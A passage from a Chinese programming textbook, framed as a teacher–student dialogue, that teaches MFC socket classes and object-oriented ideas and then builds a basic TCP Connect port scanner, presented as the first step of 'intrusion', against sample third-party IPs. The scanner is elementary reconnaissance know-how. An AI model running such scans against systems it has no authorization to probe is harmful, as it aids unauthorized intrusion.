“继承是面向对象编程的三大思想之一。其思想是当你定义了一个对象后，你可以扩展该对象，创建一些新的对象。譬如你定义了一个基类 Human，其中的属性有 Stature、Weight、Age、Gender 等。假如你此时又要定义另一个类 Student，并且发现这个类除了具有以上 Human 基类的所有属性之外，还具有一些自己特有的属性，例如 School、Grade、Class、StudentID 等等，这时你就不必重写它的全部属性，只需声明 Student 类继承于 Human 类就可以了。”

“继承可以使得子类具有父类的各种属性和方法，而不需要再次编写相同的代码。比如，CAsyncSocket 中的那些函数，CSocket 就不用再编写实现了，只用集中精力，加上自己特有的东西。CSocket 建立在 CAsyncSocket 的基础上，也就是说缺省情况下使用该类创建的 Socket 是非阻塞的 Socket，但是 CSocket 的网络 I/O 是阻塞的，它在完成任务之后才返回。CSocket 的阻塞不是建立在‘阻塞’Socket 的基础上，而是在‘非阻塞’Socket 上实现的阻塞操作。”

“CSocket 是继承 CAsyncSocket 的，因此可以用之前描述的 CAsyncSocket 编程模型，只用换成 CSocket 就可以。另外，CSocket 可以和 CSocketFile 类和 CArchive 类一起工作，这时的编程模型如下，只有第 3 步对于客户端和服务方操作是不同的，其它步骤都相同。”

以下为 CSocket 类的编程模式：

- 1. 创建 Socket

服务器端程序：

```cpp
CSocket sockSrv;
sockSrv.Create(nPort);  // 用指定端口创建套接字
```

客户端程序：

```cpp
CSocket sockClient;
sockClient.Create();  // 用缺省的端口创建套接字
```

- 2. 连接

服务器端程序：

```cpp
sockSrv.Listen();  // 服务器端程序对指定连接端口进行监听
CSocket sockRecv;  // 创建一个空的 CSocket 对象
sockSrv.Accept(sockRecv);  // 接受客户端的连接请求
```

客户端程序：

```cpp
sockClient.Connect(strAddr, nPort);  // 连接指定地址的服务器（参数 strAddr 中指定）
```

- 3. 数据传输

连接建立后，可以直接调用 Send、Receive 函数进行通信；也可以与 CSocketFile 和 CArchive 相配合使用。

服务器端程序：

```cpp
CSocketFile file(&sockRecv); // 创建与 CSocket 类的对象相连接的 CSocketFile 类对象
CArchive arin(&file, CArchive::store); // 创建与 CSocketFile 类的对象相连接的 CArchive 类对象，用于存储将要发送的数据
CArchive arout(&file, CArchive::load); // 创建与 CSocketFile 类的对象相连接的 CArchive 类对象，用于存储接收的数据
arin << dwValue;   // 发送数据 dwValue
arout >> dwValue;  // 接收数据 dwValue
```

客户端程序：

```cpp
CSocketFile file(&sockClient); // 创建与 CSocket 类的对象相连接的 CSocketFile 类对象
CArchive arin(&file, CArchive::store); // 创建与 CSocketFile 类的对象相连接的 CArchive 类对象，用于存储将要发送的数据
CArchive arout(&file, CArchive::load); // 创建与 CSocketFile 类的对象相连接的 CArchive 类对象，用于存储接收的数据
arin << dwValue;   // 发送数据 dwValue
arout >> dwValue;  // 接收数据 dwValue
```

- 4. 网络通信结束后，对于在栈中创建的 CSocket 对象、CArchive 对象、CSocketFile 对象，如果对象超出语义范围时将自动调用析构函数释放相关资源；对于在堆中创建的对象，需要调用 delete 操作销毁对象，释放相关资源。

### 2.7.3 CSocket 编程例子——网络编程例子之三

“好了，我们用 CSocket 来完成一个程序吧。网络程序都分为服务端和客户端，这里也一样。首先是服务端的实现。在 VC2003 的菜单上，选择 文件->新建->项目（或者 Ctrl+Alt+N），选择 Visual C++ 项目，MFC 类下的 MFC 应用程序。将项目的名称起名为 CCSocketServer，如图 2-39。”

图 2-39

“在第二步把应用程序类型中，选择为‘基于对话框’，这样就会建立一个对话框框架。待工程建立好后，进入‘资源视图’，选择 IDD_CSOCKETSERVER_DIALOG，把‘确定’按钮属性中的名字改为‘接收’，如图 2-40。然后双击‘接收’按钮，就会进入接收按钮的响应中，如图 2-41。”

图 2-40

“把自动生成的 OnOK() 去掉，添加服务器端监听和接收数据的代码。整个流程和之前所说的完全一样，先构建一个 CSocket 对象，再依次调用 Create()->Listen()->Accept()->Receive()->Close()。整个代码如下。”

```cpp
void CCSocketServerDlg::OnBnClickedOk()
{
    // 创建 CSocket 对象
    CSocket Socket;
    // Create 监听 830 端口
    Socket.Create(830);
    // Listen 该端口
    Socket.Listen();
    // 为 Accept 定义参数 CSocket 对象
    CSocket remoteSocket;
    // Accept 连接
    Socket.Accept(remoteSocket);
    // 用于接收数据的缓冲区
    char strBuff[256] = {0};
    // 接收数据
    remoteSocket.Receive(strBuff, 256);
    // 关闭两个 Socket
    remoteSocket.Close();
    Socket.Close();
    // 显示收到的数据
    MessageBox(strBuff);
}
```

图 2-41

“我们编译运行，会出现一个对话框，点击‘接收’按钮，这样就会在 Accept 的地方一直等待客户端的连接。我们进入命令行方式，输入 telnet 127.0.0.1 830，就连接到服务器监听的 830 端口，随便输入一个字符，比如 a，就会弹出显示 a 的窗口，如图 2-42。”

“因为 telnet 是一个字符一个字符地传输，所以服务端只收到一个字符就返回显示了。同样的，我们建立一个客户端对话框程序。MFC 项目的建立和前面一样，命名为 CCSocketClient，把‘确定’按钮改名为‘发送’，在‘发送’的响应里面，完成连接服务器和发送字符串的功能。再重复一下客户端的整个流程，先构建一个 CSocket 对象，再依次调用 Create()->Connect()->Send()->Close()，其代码如下。”

```cpp
void CCSocketClientDlg::OnBnClickedOk()
{
    // 创建 CSocket 对象
    CSocket Socket;
    // 连接 127.0.0.1:830 端口
    Socket.Create();
    Socket.Connect(_T("127.0.0.1"), 830);
    // 发送字符串 ww0830
    Socket.Send(_T("ww0830"), sizeof(_T("ww0830")));
    // 关闭 Socket
    Socket.Close();
}
```

“最后服务端和客户端进行联测。先运行服务端，点击‘接收’，再运行客户端点击‘发送’，服务端成功收到了发送的字符串‘ww0830’，如图 2-43。”

“大家可以再看看 MSDN 的 CSocket 编程模型，对服务端和客户端的编写流程有详细的介绍，如图 2-44。”

### 2.7.4 面向对象编程的三大思想之三——多态性

“老师，前面说了面向对象编程的三大思想之一和之二，那之三是什么呢？”小菜们问道。

“是多态性！”老师回答道。

“多态性的意思是指不同的类对同一操作可以有不同的行为。譬如说，如果你编写魔兽，定义了 BladeMaster（剑圣）、DeathKnight（死亡骑士）、DaemonHunter（恶魔猎手）、Archmage（大法师）这四个类，并且分别创建了它们的实例，此时你向每个实例都发送一条 UseUltimateSkill（使用终极技能）这个消息，这四个实例将完成不同的事情，BladeMaster 将施展剑刃风暴，DeathKnight 将召唤周围的死尸，DaemonHunter 将变身，而 Archmage 将实现部队的瞬间移动。‘使用终极技能’这个动作只描述了普遍行为，我们不知道这些行为应该作用于哪种对象，也不知道具体的效果是什么。只有作用的对象一旦确定下来，动作才可以和一系列特定的行为联系起来。这就是多态的精髓。”

“老师总结道：‘封装、继承和多态，是面向对象编程的基石；一切面向对象编程方法都是建立在这三大思想上的。为了提高大家在新世纪时期的十大核心竞争力，我们自己用 CAsyncSocket 编写一个继承和封装的例子吧。’”

### 2.7.5 CMyAsyncSocket 类的继承和封装——网络编程例子之四

“我们先建立一个 MFC 对话框项目，起名为 CAsyncSocketServer。建立工程的过程和前面一样，就不再细说了。在这个工程中，我们将继承 CAsyncSocket 类，实现自己的名为 CMyAsyncSocket 的继承类。要在 VC 中添加自己的类，可以在‘类视图’的根节点中点击右键，在弹出来的菜单中选择‘添加’->‘添加类’，如图 2-45。”

# 第二章 网络编程基础

“这样就会弹出‘添加类’的选择对话框，里面有各种类型的类。因为我们的基类——CAsyncSocket——是 MFC 的，所以我们选择 MFC 类，如图 2-46。”

点击打开后，会出现 MFC 类向导，我们在基类的下拉列表中选择 CAsyncSocket，在类的名称中输入 CMyAsyncSocket，类向导会自动帮我们填充余下的项目，比如文件名等，如图 2-47。”

“我们点击确定，VC 就会自动在工程中生成这个新类的代码。大家看，自动生成的代码只有构造函数和析构函数，如图 2-48。”

“在类视图的 CMyAsyncSocket 类中，点击前面的 + 符号展开，选择‘基项和接口’，可以看到基类是 CAsyncSocket，也可以看到基类带有成员和方法，如图 2-49。”

“找到 CAsyncSocket 的 OnAccept 成员函数，双击它，就可以进入到实现代码。基类 CAsyncSocket 对 OnAccept、OnReceive 等函数的实现是空的，因此需要我们自己重载实现，如图 2-50。”

“好了，我们在 CMyAsyncSocket 类的定义中（.h 文件），添加 OnAccept 和 OnReceive 两个函数的定义，并且为了保存所建立的新的 Socket，还要定义一个 `CMyAsyncSocket* m_newSocket;`，其代码如下：”

```cpp
class CMyAsyncSocket : public CAsyncSocket
{
public:
    CMyAsyncSocket();
    virtual ~CMyAsyncSocket();
    void OnAccept(int nErrorCode);
    void OnReceive(int nErrorCode);
    CMyAsyncSocket* m_newSocket;
};
```

“然后在 CMyAsyncSocket 类的实现中（.cpp 文件），添加 OnAccept 和 OnReceive 的实现代码。”

OnAccept 的动作是创建一个新的 CMyAsyncSocket，用它来 Accept 连接。

```cpp
void CMyAsyncSocket::OnAccept(int nErrorCode)
{
    m_newSocket = new CMyAsyncSocket(); // 创建新的 CMyAsyncSocket
    Accept(*m_newSocket);               // Accept 新的 CMyAsyncSocket
    m_newSocket->AsyncSelect(FD_READ);  // 发送 Receive 消息
}
```

“在 OnReceive 中，实际调用 Receive 接收数据，然后用 AfxMessageBox 打印出来。”

```cpp
void CMyAsyncSocket::OnReceive(int nErrorCode)
{
    char strBuff[1024];
    int nRead;
    nRead = Receive(strBuff, sizeof(strBuff));
    strBuff[nRead] = 0;
    AfxMessageBox(strBuff, MB_OK, NULL);
}

// CMyAsyncSocket is derived from CAsyncSocket
// 调用 Receive 接收输入
// terminate the string
// 把接收到的字符显示出来
```

“这样 CMyAsyncSocket 就实现好了！”

“哦，这样就继承了 CAsyncSocket，实现了我们自己的类啊？”小菜们有点不敢相信。

“呵呵，是的，继承开发一个新类就是这么简单，只要编写我们需要的特色东西即可。我们在主程序中调用我们的 CMyAsyncSocket 类吧。双击主程序对话框的‘确定’按钮，在响应函数中用 CMyAsyncSocket 对象监听 830 端口。”

```cpp
void CCAsyncSocketServerDlg::OnBnClickedOk()
{
    // Create 监听 830 端口
    m_mySocket.Create(830);
    // Listen 该端口
    m_mySocket.Listen();
}
```

“m_mySocket 是在对话框类 CCAsyncSocketServerDlg 中定义的，这使得 m_mySocket 在整个对象的存活期间都有效。当然了，在 CAsyncSocketServerDlg.h 头文件中，要加上 `#include "MyAsyncSocket.h"`，不然会找不到 CMyAsyncSocket 的定义。好了，一切 OK，全部程序可以参看 CAsyncSocket 工程。我们运行程序，点击确定后用 telnet 连到 830 端口，随便敲几个字符，CMyAsyncSocket 成功地接收到了，并且全部打印了出来，如图 2-51。”

“哦，那么编程的时候，是直接使用 Socket 函数还是使用 MFC 封装的 CAsyncSocket 和 CSocket 类呢？它们谁优谁劣呢？”小菜们一边测试一边问道。

“它们是各有好处的。封装使得编程变得简单，而 Socket 编程，可以更让人清楚本质，避免类的封装屏蔽了我们的双眼。”老师总结道，“对于黑客，理解底层有非常大的好处。我们以后也更多地用接近底层的 Socket 编程——即使在 MFC 的程序中。”

## 第二章 端口与漏洞扫描编程

“虽然我们已经学习了网络编程的基础知识，但目前为止还没有和我们的‘黑客’任务联系起来呢。”老师说道。

“是啊！”

“下面我们就来完成‘入侵’最基础的一步——‘扫描’。工欲善其事，必先利其器，扫描工具可是黑客任务前期工作的必备利器哦，大家以前都用过什么样的扫描工具呢？”

“X-Scan、流光、Nmap……”小菜们报出了一大堆菜名。

“看来各位‘准黑客’还真够有两把刷子，那么都利用这些工具干过多少坏事啊？”

“汗……俺们很遵纪守法的！”

“呵呵，那就好。我们不仅要会用工具，更重要的是理解工具的底层结构，能够亲自编写出这样的工具。现在我们就来一步步打造出一个类似 X-Scan 的工具吧。”

“打造？怎么打造？不会是打怪造装备吧！”小菜说道，“我猜指的是编程吧……”

“当然是编程啊！”

“那是不是很难啊？”

“呵呵，其实再大的程序也是由一个个小模块构成的，我们只要先将小模块完成了，那么最后的工作就是堆积木了。当然实现 X-Scan 那样完备的功能不是一朝一夕的事情，不过假以时日，大家一定都可以的。”

“说到分模块，扫描工具可以分为两个大的模块：端口扫描以及漏洞扫描。端口扫描可以让我们知道目标主机开放了哪些服务；而漏洞扫描则可以检测出提供的服务是否存在漏洞。我们先从端口扫描说起。”

## 3.1 端口扫描编程

### 3.1.1 端口扫描的原理及技术分类

计算机“端口”是英文 port 的意译，可以认为是计算机与外界通讯交流的出口。按端口号可分为 3 大类：

- 1. 公认端口（Well Known Ports）：从 0 到 1023，它们紧密绑定（binding）于一些服务。通常这些端口的通讯明确表明了某种服务的协议。
- 2. 注册端口（Registered Ports）：从 1024 到 49151。它们松散地绑定于一些服务。也就是说有许多服务绑定于这些端口，这些端口同样用于许多其它目的。例如：许多系统处理动态端口从 1024 左右开始。
- 3. 动态或私有端口（Dynamic and/or Private Ports）：从 49152 到 65535。理论上，不应为服务分配这些端口。但实际上，系统通常从 1024 起分配动态端口。但也有例外：SUN 的 RPC 端口从 32768 开始。

端口扫描的目的就是为了探测目标主机究竟开启了哪些服务，主要针对于 TCP 端口的扫描。端口扫描有几种不同的方法，包括 TCP Connect 扫描、TCP SYN 扫描、FIN 扫描等。我们依次来看。

### 3.1.2 TCP Connect 扫描

“首先讲 TCP Connect 扫描，之所以最先讲它，是基于一个千古不破的真理——挑就要挑最软的柿子，因此最先欺负的自然也是最简单的 TCP Connect 扫描了。它的原理非常简单，就是使用 connect 函数去连接对方计算机的相应端口，如果连接成功，就表明这个端口是开放的。我们再来回顾一下 connect() 函数的定义。函数的原型如下。”

```c
int connect(
    SOCKET s,
    const struct sockaddr FAR *name,
    int namelen
);
```

客户端调用 connect 函数来使客户 Socket s 与监听于 name 所指定的计算机的特定端口上的服务 Socket 进行连接。如果连接成功，connect 返回 0；如果失败则返回 SOCKET_ERROR。

“现在就可以利用以前的代码轻松完成对一个 IP 的某个端口进行扫描了哦，有谁愿意来试试，只用写出关键的连接代码即可。”

“我来。”小菜 A 积极地举手，然后仔细地从以前学习的代码中抄了一段下来。

```cpp
memset(&daddr, 0, sizeof(daddr));
daddr.sin_family = AF_INET;
daddr.sin_port = htons(8888);
daddr.sin_addr.s_addr = inet_addr("133.197.62.44");
if (connect(ClientSocket, (struct sockaddr *)&daddr, sizeof(daddr)) == 0)
{
    // 连接端口成功
}
else
{
    // 连接端口失败
}
```

“^_^，对吧？”小菜 A 望着老师。

“不错，就是这么简单，只要加个循环，就可以完成对多个 IP 或者多个端口进行扫描了。”

“为了向 X-Scan 的目标靠近，我们可不能满足于控制台黑乎乎的窗口，在前边我们曾介绍了 MFC 对话框的编写方法，这次我们就把它调入战场，来编写一个有对话框界面的 TCP Connect 扫描工具。”

“我们先来复习一下 MFC 对话框建立的步骤。在 VC2003 的菜单上，选择文件→新建→项目（或者 Ctrl+Alt+N），选择 Visual C++ 项目，MFC 类下的 MFC 应用程序。这次我们将项目命名为‘ConnectScan’，如图 3-1。”

“点击确定后，会弹出 MFC 应用程序向导，我们选择左边菜单中的应用程序类型，改选为‘基于对话框’。最后点击‘完成’按钮，VC 就会自动为我们生成基本的对话框框架。工程建立好后，VC 自动将对话框的编辑页面呈现给我们，而左面的视图管理器也自动切换到了‘资源视图’，如图 3-2。”

“同时也可以看到其它不同的视图，可以点击下面的标签进行切换，也可以通过‘菜单’→‘视图’中的选项进行切换，我们在编写程序的时候会经常在这些视图中进行切换。我再强调一次，‘资源视图’主要用于管理工程里面的对话框资源（Dialog）、图标资源（Icon）、字符串资源（String Table）等等。‘解决方案资源管理器’视图用于显示工程中的文件，包括源文件、头文件、资源文件等等。可以看到 VC 已经为我们建立了三个源文件、四个头文件，和‘Win32 应用程序’比较一下，除了熟悉的以项目名称命名的 ConnectScan.cpp、ConnectScan.h 以及预编译头文件 stdafx.h、stdafx.cpp 外，还多了 ConnectScanDlg.cpp 和 ConnectScanDlg.h 这两个文件，如图 3-3。”

“类视图”用于显示以及管理工程中建立的类，VC 已经为我们实现了三个类 CAboutDlg、CConnectScanApp、CConnectScanDlg。双击类名可以到达类定义的代码，双击类下面展开的函数名可以定位到函数实现的代码，如图 3-4。”

“ConnectScan.cpp 中是对 CConnectScanApp 类的实现，而 ConnectScanDlg.cpp 包含了 CConnectScanDlg 和 CAboutDlg 的实现。了解了这些后，我们来完成网络初始化工作。首先在文件 stdafx.h 中添加 winsock2.h 头文件以及链接 ws2_32.lib，在其最后添加如下代码。”

```cpp
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib")
```

“而为了使用 SOCKET 网络函数，我们必须在程序的最开始调用 WSAStartup() 进行初始化，在程序结束时应该调用 WSACleanup() 做最后的清理工作。”

“怎么翻遍了所有的文件，都没有发现入口函数 main 或者 _tmain 啊？那程序是怎么执行的呢？”要真的写复杂的 MFC 程序了，小菜开始对待代码中的每一个问题了。

“这就是 MFC 优点的体现，同时也是 MFC 入门的门槛，MFC 的目的就是让我们致力于程序功能的实现，而程序的框架的建立以及消息的管理等等都被封装起来了，因此 MFC 的入口点对我们是不可见的。”

“那有没有办法可以看到程序的入口点呢？我想知道我究竟被谁蒙蔽了眼睛。”小菜 A 问道。

“呵呵，有黑客的潜质，为了满足大家的要求，拿出我们无敌加无敌的调试手段，‘F10’。”

“是单步调试。”小菜 B 马上回答。

“嗯，单步调试就会在程序的入口第一条语句中断，看看我们来到了什么地方。”

```cpp
extern "C" int WINAPI
_tWinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
          LPTSTR lpCmdLine, int nCmdShow)
{
    // call shared/exported WinMain
    return AfxWinMain(hInstance, hPrevInstance, lpCmdLine, nCmdShow);
}
```

> “原来我们的入口函数跑到这里了，呵呵，还不是被我们抓到。不过函数入口名称和参数有了很大的变化，_tmain() 函数是 Win32 控制台程序的入口点，而 _tWinMain() 是 Win32 程序的入口点，其中参数的意义如下。”

- `HINSTANCE hInstance`：代表本程序的句柄
- `HINSTANCE hPrevInstance`：即本程序的父句柄
- `LPTSTR lpCmdLine`：参数
- `int nCmdShow`：显示方式，显示窗口或者隐藏窗口

“MFC 已经把函数的入口帮我们藏起来了，这样做的原因就是让我们尽快地进行程序的设计，而不用停留在对框架的搭建上。既然如此，我们也不对 MFC 内部的实现机制进行探索了，直接对 MFC 展现给我们的文件进行分析。毕竟，我们是在用 MFC 写程序，而不是学 MFC。”

小菜问道：“那我们从哪里入手呢？”

“让我们来看看 BOOL CConnectScanApp::InitInstance() 函数：将在前面的视图管理器切换到‘类视图’并展开，在 InitInstance(void) 上双击，如图 3-5 所示，VC2003 就自动将代码定位到了 BOOL CConnectScanApp::InitInstance() 了。”

“从名字上就知道这是初始化的函数，事实上也确实如此，可以把该函数当作整个项目的入口，这个函数让我们有机会在对话框显示之前进行一些初始化的动作。其实不仅如此，InitInstance() 掌管了对话框的整个生命周期，对话框的显示是在 InitInstance() 中触发的，当对话框消失或者关闭的时候还要回到 InitInstance() 中，因此还可以在对话框关闭的时候进行一些收尾的工作。我们来看看 InitInstance() 的代码。”

```cpp
// CConnectScanApp 初始化
BOOL CConnectScanApp::InitInstance()
{
    // 如果一个运行在 Windows XP 上的应用程序清单指定要
    // 使用 ComCtl32.dll 版本 6 或更高版本来启用可视化方式，
    // 则需要 InitCommonControls()。否则将无法创建窗口。
    InitCommonControls();
    CWinApp::InitInstance();
    AfxEnableControlContainer();

    // 标准初始化
    // 如果未使用这些功能并希望减小
    // 最终可执行文件的大小，则应移除下列
    // 不必要的特定初始化例程
    // 更改用于存储设置的注册表项
    // TODO: 应适当修改该字符串，
    // 例如修改为公司或组织名
    SetRegistryKey(_T("应用程序向导生成的本地应用程序"));

    CConnectScanDlg dlg;
    m_pMainWnd = &dlg;
    INT_PTR nResponse = dlg.DoModal();
    if (nResponse == IDOK)
    {
        // TODO: 在此放置处理何时用“确定”来关闭
        // 对话框的代码
    }
    else if (nResponse == IDCANCEL)
    {
        // TODO: 在此放置处理何时用“取消”来关闭
        // 对话框的代码
    }

    // 由于对话框已关闭，所以将返回 FALSE 以便退出应用程序，
    // 而不是启动应用程序的消息泵。
    return FALSE;
}
```

首先 CConnectScanApp::InitInstance() 调用 InitCommonControls() 对 MFC 提供的通用控件进行注册和初始化，然后调用 AfxEnableControlContainer() 为使用 ActiveX 控件做好准备（如果在对话框向导中没有选中支持 ActiveX 的话，这条语句不会出现），最后 MFC 提供的初始化函数就是 SetRegistryKey(_T("应用程序向导生成的本地应用程序"))。如果你的程序需要使用注册表并发布的话，调用本语句之后就可以简单使用 CWinApp::WriteProfileString()、CWinApp::GetProfileString() 来进行注册表操作了。在初始化完成之后就来到了我们最关心的地方：“对话框的产生和显示”。首先 CConnectScanDlg dlg 实例化一个对象，然后通过 dlg.DoModal() 把对话框显示出来。现在 CConnectScanApp 和 CConnectScanDlg 顺利会师了。总结一下：程序首先在我们看不到的入口点 _tWinMain() 开始执行，最终到达 CConnectScanApp::InitInstance()。在 InitInstance() 函数中，我们可以进行整个程序的一些初始化动作，比如网络初始化、注册表初始化等等，然后创建了 CConnectScanDlg 对象，最后通过调用 DoModal() 函数显示出对话框，之后对话框进入自己的消息循环，直到对话框关闭返回到 InitInstance() 中。因此，InitInstance() 见证了对话框的建立以及销毁，我们可以在对话框建立之前调用 WSAStartup() 进行网络初始化，而在对话框消失之后调用 WSACleanup() 完成清理工作，最后形成的代码如下。”

```cpp
BOOL CConnectScanApp::InitInstance()
{
    WSADATA wsaData;
    // 网络初始化
    if (WSAStartup(WINSOCK_VERSION, &wsaData))
    {
        return FALSE;
    }

    // 实例化 CConnectScanDlg
    CConnectScanDlg dlg;
    // 保存
    m_pMainWnd = &dlg;
    // 显示对话框
    INT_PTR nResponse = dlg.DoModal();
    // 网络清理工作
    WSACleanup();
    return FALSE;
}
```

“我的天啊，讲了半天，结果我们才完成了网络的初始化，以后可怎么办啊？”小菜们准备抱头鼠窜了。

“呵呵，不要紧张。万事开头难，熟悉之后大家就得心应手了。”

“接下来就开始我们的界面设计了。扫描程序中需要的元素有三样：IP 地址、端口以及结果回显，我们就要在界面上设计这三种东西。VC2003 中为我们提供了 IP 控件‘IP Address Control’，使用它我们可以方便地进行 IP 地址的输入，并且它还为我们提供了容错的处理；端口嘛，可以使用编辑控件‘Edit Control’；而结果回显我们使用一个列表控件‘List Control’。将这三个控件从‘工具箱’中拖出来放到我们的对话框中来，如图 3-6。”

“怎么修改静态文本名称以及控件的 ID 呢？和 VC 6.0 差别太大了。”小菜问道。

“右键单击文本控件，选择‘属性’，在左面会有‘属性’视图，在里面的选项中就可以实现控件 ID、标题（Caption）等等属性的修改，如图 3-7。”

“各个控件、各个资源以及各个类，其属性都有所差异，希望大家好好摸索一下。我们修改控件的 ID 以及静态文本的标题；改变列表控件的样式：‘属性’→‘View’→修改为 List，也就是以列表的方式显示回显结果。修改前后最终效果如图 3-8 所示。”

“添加消息响应函数，双击‘确定’按钮，VC2003 将自动为我们创建好消息响应函数 void CConnectScanDlg::OnBnClickedOk()。记得把 VC 为我们添加的 OnOK() 去掉，不然点击‘确定’按钮时对话框会消失。现在就可以在函数 OnBnClickedOk() 中添加我们进行 TCP Connect 扫描的代码了。”

“哇，终于步入正题了！”

“我们分析一下扫描目标电脑及端口的流程。首先得到目标 IP 地址和端口号，然后建立循环，不断地调用 connect() 函数来连接它；并将 connect() 调用的结果回显到列表控件中。”

“获得 IP 和端口 -> connect() -> 回显连接结果。嗯，就是这样子的。”小菜们应道。

以后对这个 IP 控件的操作就可以通过 m_IpStart 来进行实现，而要想获得用户输入的 IP 地址，我们可以使用控件的 GetAddress() 方法来获取，其定义如下。

```cpp
int CIPAddressCtrl::GetAddress(DWORD& dwAddress);
```

参数 dwAddress 为用户输入的 IP 地址，一个 DWORD 类型。

“一个 DWORD 怎么能表示‘127.0.0.1’这样的 IP 地址呢？”小菜指着参数问道。

“一个字节可以表示的最大正整数为 0xFF（255），刚好可以存放 IP 地址的一个项，而 DWORD 是一个 4 个字节的类型，用来存放一个 IP 地址刚刚好。我们在 IP 控件里面输入 127.0.0.1，那么输出的 dwAddress 为 0x7F000001，而这种表示方法称为主机字节序，要想在网络上使用需要转换成网络字节序，htonl() 函数可以满足我们的要求，htonl 就是‘host to network long’的缩写，其功能就是将主机字节序转换为网络字节序。因此，使用下面三句代码就可以获得 IP 并转换成网络字节序了。”

```cpp
DWORD dwIP;
// 获取用户输入的IP地址
m_IpCtrl.GetAddress(dwIP);
// 使用网络字节序
dwIP = htonl(dwIP);
```

“我们也把端口编辑控件和一个成员变量关联起来，右键单击‘开始端口编辑控件’→添加成员变量，这次我们需要修改‘类别’为‘Value’，并将‘变量类型’修改为 UINT，‘变量名’为‘m_uStartPort’，如图 3-10。”

“这种 Value 类别的变量，要调用 CWnd::UpdateData() 来进行更新，UpdateData() 定义如下。”

```cpp
BOOL UpdateData(BOOL bSaveAndValidate = TRUE);
```

bSaveAndValidate 如果为 TRUE，那么表示控件的值更新到关联的变量中，否则会将关联的变量的值输出到控件中。

“比如我们调用 CWnd::UpdateData(TRUE)，就把用户输入到控件中的端口号存放在变量‘m_uStartPort’中，如果调用 CWnd::UpdateData(FALSE)，则将‘m_uStartPort’的值输出显示到控件里。获得了 IP 地址和端口后，我们就可以循环调用 connect() 进行扫描了。”

```cpp
for (DWORD dwIp = dwStartIp; dwIp <= dwEndIp; dwIp++)
{
    for (DWORD dwPort = m_uStartPort; dwPort <= m_uEndPort; dwPort++)
    {
        // 调用connect函数
    }
}
```

“最后是将扫描结果显示出来，我们使用了列表控件来显示。同样，我们把列表控件和成员变量 CListCtrl m_BackMsgList 关联起来，其操作和 IP 控件的关联方法类似，大家试一试。”

“好的！”小菜们右击列表控件，选择添加变量，命名为 m_BackMsgList。

“就是这样的，接下来为大家介绍两个操作列表控件元素的函数，CListCtrl::DeleteAllItems() 和 CListCtrl::InsertItem。”

```cpp
BOOL DeleteAllItems(void);
```

其功能是删除列表控件中的所有元素。

```cpp
int CListCtrl::InsertItem(int nItem, LPCTSTR lpszItem);
```

其功能是向列表控件中添加一个元素。nItem 为添加元素的索引，lpszItem 为添加到列表控件中的内容。

“因此，‘确定’按钮的消息响应函数可以编写如下，注意，我们开始扫描了哦。”

```cpp
void CConnectScanDlg::OnBnClickedOk()
{
    // 第一步 获取IP和端口
    UpdateData(TRUE);
    DWORD dwStartIp;
    DWORD dwEndIp;
}
```## 第三章 端口与漏洞扫描编程

```cpp
m_ipStart.GetAddress(dwStartIp);
m_ipEnd.GetAddress(dwEndIp);
CString str;

// 第一步：循环 connect
for (DWORD dwIp = dwStartIp; dwIp <= dwEndIp; dwIp++)
{
    for (DWORD dwPort = m_uStartPort; dwPort <= m_uEndPort; dwPort++)
    {
        SOCKADDR_IN sockAddr;
        SOCKET sock;

        // 创建面向连接的 socket
        sock = socket(PF_INET, SOCK_STREAM,
                      // 使用 TCP 协议
                      IPPROTO_TCP);

        sockAddr.sin_family = AF_INET;
        // 指定连接的端口号
        sockAddr.sin_port = htons(dwPort);

        // 指定连接的 IP 地址
        sockAddr.sin_addr.S_un.S_addr = htonl(dwIp);
        char* szIp = inet_ntoa(*(in_addr*)&sockAddr.sin_addr);
        CString str;
        // 发起连接
        if (connect(sock, (LPSOCKADDR)&sockAddr, sizeof(sockAddr)) == 0)
        {
            // 连接成功
            CTime tm = CTime::GetCurrentTime();
            str.Format("%s 端口 %d 连接成功 时间 %d:%d:%d", szIp, dwPort,
                       tm.GetHour(), tm.GetMinute(), tm.GetSecond());
        }
        else
        {
            // 连接失败
            CTime tm = CTime::GetCurrentTime();
            str.Format("%s 端口 %d 连接失败 时间 %d:%d:%d", szIp, dwPort,
                       tm.GetHour(), tm.GetMinute(), tm.GetSecond());
        }

        // 第三步：添加回显信息
        m_lBackMsgList.InsertItem(0, str);
        closesocket(sock);
    }
}
```

“我们的扫描器就算是编写成功了，来看看效果，‘Ctrl + F5’运行程序，输入要扫描的 IP 范围以及端口，然后点击‘确定’，程序就开始扫描了。”

“那怎么样？什么也看不到，而且界面也没有响应了？”

“那是因为程序一直在函数 OnBnClickedOk 中执行而没有返回，没有机会刷新界面和响应拖动的消息了。”

“哦，那怎么办呢？”

“慢慢等吧，面包会有的，结果也会有的……”

“我等到花儿也谢了……”

“快醒醒，有结果了。”小菜 A 终于看到有响应了，招呼着大家，如图 3-11。

“才扫描 4 个目标，就慢成这样，那如果再扫描多一点目标可怎么办啊？”小菜们不由得担心起来。

“呵呵，当前的状态下我们是没有办法，毕竟 connect() 是需要时间的，特别是遇到不在线的主机，大家看看，扫描 202.115.32.129 的 81 端口时候，所需要的时间是 1 秒，而扫描 202.115.32.130 的时候每次都等待了 21 秒才结束，谁叫别人不在家呢。”

“不过呢，慢归慢，我们还是已经实现了扫描的初期目标，下面我们就来探讨一下如何改进扫描的速度吧（注意：请关闭卡巴斯基 6.0，再进行 TCP Connect 扫描，否则会造成误报）。为了缓解这种状况，我们可以使用多个线程来同时进行扫描，这样就可以提高扫描的速度。”

“多线程？”

“线程有个相对应的概念：‘进程’，Windows 自带的‘任务管理器’可以方便地查看进程相关信息，我们可以通过‘开始’->‘运行’->输入‘taskmgr.exe’来调出 Windows 自带的‘任务管理器’，在‘任务管理器’中点击‘查看’->‘选择列’，把‘线程计数’勾上，如图 3-12。”

“‘任务管理器’为我们做了统计，系统当前有 32 个进程，‘映像名称’就是进程名，仔细看看‘线程数’，一般来说，一个进程都不止一个线程，PID 为 536 的‘SVCHOST.EXE’竟然有 28 个线程，有了这样的感性认识后，我们回头再仔细看看进程、线程是什么。”

### 小知识：进程、线程、多线程概念

